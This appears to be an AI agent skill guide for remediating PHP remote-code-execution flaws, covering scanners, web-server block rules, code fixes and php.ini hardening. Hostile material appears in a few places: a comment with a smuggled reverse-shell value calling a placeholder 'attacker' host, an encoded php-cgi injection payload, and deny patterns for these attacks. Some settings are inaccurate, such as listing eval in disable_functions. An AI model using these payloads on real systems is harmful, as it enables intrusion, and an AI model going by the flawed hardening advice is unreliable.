

# PHP2Shell Fixer Skill

The `php2shell-fixer` skill provides comprehensive detection, remediation, and verification workflows to neutralize PHP Remote Code Execution (RCE) vectors and the October 2026 php2shell vulnerabilities.

---

## Threat Matrix: October 2026 php2shell Vectors

| Vector ID | Vulnerability Class | Mechanism | Impact |
|---|---|---|---|
| **P2S-2026-01** | CGI Argument Injection & Unicode Bypasses | Best-fit mapping & soft-hyphen (`%ad%64`) bypasses in `php-cgi` injecting `-d allow_url_include=1` | Arbitrary remote shell execution via query string |
| **P2S-2026-02** | Stream Filter Chain Exploitation | Abuse of `php://filter` and iconv memory manipulation in `include`/`require` | Memory corruption & direct arbitrary code execution |
| **P2S-2026-03** | Command Injection Primitives | Unsanitized inputs passed to `exec`, `system`, `passthru`, `shell_exec`, `proc_open` | Direct OS shell spawn |
| **P2S-2026-04** | Webshell Upload & MIME Spoofing | Unrestricted file uploads (`.php`, `.phtml`, `.phar`, `.user.ini`, `.htaccess`) | Persistent webshell installation |
| **P2S-2026-05** | Phar & Insecure Deserialization | `phar://` stream wrapper triggering `unserialize()` gadget chains | POP gadget chain escalation to shell |

---

## Remediation Workflow



---

## Step 1: Run the Automated SAST Scanner

Scan your codebase for all shell-spawning primitives and vulnerable patterns using the native PHP scanner [php2shell-audit.php](./scripts/php2shell-audit.php) or [php2shell-audit.py](./scripts/php2shell-audit.py):

```bash
# Using native PHP:
php .agents/skills/php2shell-fixer/scripts/php2shell-audit.php --path=./app

# Or using Python:
python .agents/skills/php2shell-fixer/scripts/php2shell-audit.py --path=./app
```

The scanner audits:
- Shell execution functions (`exec`, `passthru`, `shell_exec`, `system`, `proc_open`, `popen`, `` ` ``).
- Dynamic code evaluation (`eval`, `assert`, `create_function`, `preg_replace /e`).
- Unrestricted `include`/`require` with dynamic variables or wrappers (`php://`, `data://`).
- Insecure `unserialize()` and `phar://` wrappers.
- Insecure file upload validation (relying solely on client-side MIME types).

---

## Step 2: Remediate CGI Argument Injection (October 2026 & CVE-2024-4577)

### Vulnerability Mechanics
Attackers pass encoded arguments (e.g. `%ad%64+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input`) through web server query strings to `php-cgi`. In environments with Windows Best-Fit mapping or misconfigured CGI handlers, this invokes command-line switches within the PHP engine itself, executing arbitrary POST bodies as PHP shells.

### Web Server Remediation Directives
Apply rules from [webserver-hardened.conf](./scripts/webserver-hardened.conf):

#### Nginx:
```nginx
# Block query string argument injection targeting PHP-CGI
if ($query_string ~* "(\-d|\-\-define|\-s|\-w|\-b|\-c|\-n)") {
    return 403;
}
# Block Unicode / Soft-hyphen bypass attempts
if ($query_string ~* "(%ad|%u00ad|%ff)") {
    return 403;
}
# Ensure FastCGI only passes legitimate scripts
fastcgi_split_path_info ^(.+\.php)(/.+)$;
try_files $fastcgi_script_name =404;
```

#### Apache (`.htaccess` / VirtualHost):
```apache
<IfModule mod_rewrite.c>
    RewriteEngine On
    RewriteCond %{QUERY_STRING} ^.*(-d|-s|-w|-b|-c|-n).* [NC,OR]
    RewriteCond %{QUERY_STRING} ^.*(%ad|%u00ad|%ff).* [NC]
    RewriteRule .* - [F,L]
</IfModule>
```

---

## Step 3: Source Code Remediation

### 1. Eliminating Raw Shell Execution
Never concatenate untrusted input into shell commands:

#### Vulnerable:
```php
$ip = $_POST['ip'];
$output = shell_exec("ping -c 4 " . $ip); // Exploit: 8.8.8.8; nc -e /bin/sh attacker 4444
```

#### Remediated:
```php
$ip = filter_input(INPUT_POST, 'ip', FILTER_VALIDATE_IP);
if (!$ip) {
    throw new InvalidArgumentException('Invalid IP address provided.');
}

// Use Symfony Process with strict argument array (escapes every argument natively)
use Symfony\Component\Process\Process;

$process = new Process(['ping', '-c', '4', $ip]);
$process->mustRun();
$output = $process->getOutput();
```

---

### 2. Neutralizing Stream Filter Chains & Dynamic Includes
Attackers exploit dynamic file inclusions like `include($_GET['page']);` using `php://filter/read=convert.base64-encode/resource=...` or iconv memory manipulation chains to generate executable shells.

#### Vulnerable:
```php
$template = $_GET['page'] ?? 'home';
include("templates/" . $template . ".php"); // Vulnerable to path traversal & filter chains
```

#### Remediated: Strict Whitelisting
```php
$allowedPages = [
    'home'     => __DIR__ . '/../templates/home.php',
    'about'    => __DIR__ . '/../templates/about.php',
    'contact'  => __DIR__ . '/../templates/contact.php',
];

$page = $_GET['page'] ?? 'home';

if (!array_key_exists($page, $allowedPages)) {
    http_response_code(404);
    die('Page not found.');
}

require $allowedPages[$page];
```

---

### 3. Hardening File Uploads Against Webshells
Prevent attackers from uploading `.php`, `.phtml`, `.phar`, `.user.ini`, or `.htaccess` files.

#### Remediation Checklist:
1. **Store Outside Webroot**: Uploaded files must never be placed inside `public/` or web-accessible directories.
2. **Randomized File Names**: Generate UUIDs or random hashes; never preserve the original client filename.
3. **MIME & Magic Byte Validation**: Inspect real file contents using `finfo_file(FILEINFO_MIME_TYPE)`.
4. **Extension Whitelisting**: Strict array lookup against allowed extensions (`jpg`, `png`, `pdf`).
5. **Web Server Execution Denial**: Disable script execution in storage folders.

```php
// Strict File Upload Sanitizer
$allowedMimes = ['image/jpeg' => 'jpg', 'image/png' => 'png', 'application/pdf' => 'pdf'];

$tmpPath = $_FILES['document']['tmp_name'];
$finfo = new finfo(FILEINFO_MIME_TYPE);
$mime = $finfo->file($tmpPath);

if (!isset($allowedMimes[$mime])) {
    throw new RuntimeException('Forbidden file type.');
}

$ext = $allowedMimes[$mime];
$safeFilename = bin2hex(random_bytes(16)) . '.' . $ext;
$destination = '/var/app_storage/uploads/' . $safeFilename; // Stored OUTSIDE public webroot!

if (!move_uploaded_file($tmpPath, $destination)) {
    throw new RuntimeException('Failed to persist file.');
}
```

---

## Step 4: Apply Runtime Hardening (`php.ini`)

Deploy [php-hardened.ini](./scripts/php-hardened.ini):

```ini
; Disable dangerous functions capable of spawning shells or modifying process memory
disable_functions = exec,passthru,shell_exec,system,proc_open,popen,pcntl_exec,eval,assert,dl,apache_child_terminate,apache_setenv,virtual

; Forbid URL wrappers in file access
allow_url_fopen = Off
allow_url_include = Off

; Restrict file access to authorized workspace
open_basedir = /var/www/html/:/tmp/

; Hide PHP version banner
expose_php = Off
```
